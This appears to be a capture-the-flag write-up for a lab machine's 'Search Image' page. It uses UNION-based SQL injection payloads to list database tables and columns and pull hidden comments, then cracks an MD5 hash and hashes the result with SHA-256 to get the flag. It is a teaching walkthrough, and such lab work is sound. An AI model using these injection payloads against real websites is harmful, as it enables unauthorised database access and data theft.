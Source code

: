 In the "Search Image" page (http://10.12.181.103/?page=searchimg) we gonna use the sql injection to get all the tables names and their column names by using 
```
ID: 1 OR 1=1 UNION SELECT TABLE_NAME, COLUMN_NAME  FROM INFORMATION_SCHEMA.COLUMNS 
```
after listing the names, we can check on the table "list_images" and see its columns, the most important one here is this one
```
Title: comment
Url : list_images
```
so we can use a script to search on all the comments and we can use another column's name or use the same one twice like :
```
1 OR 1=1 UNION SELECT comment, comment FROM list_images
```

or
```
1 OR 1=1 UNION SELECT title, comment FROM list_images
```
the most important message in all the cases is this one:
```
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```
so we decode the lowercase, we use this website 
```
https://crackstation.net/
```
the result is :
```
albatroz
```
so after hashing "albatroz" with SH256 tool we get the flag:
```
f2a29020ef3132XXXXXXXXXXXXXX
```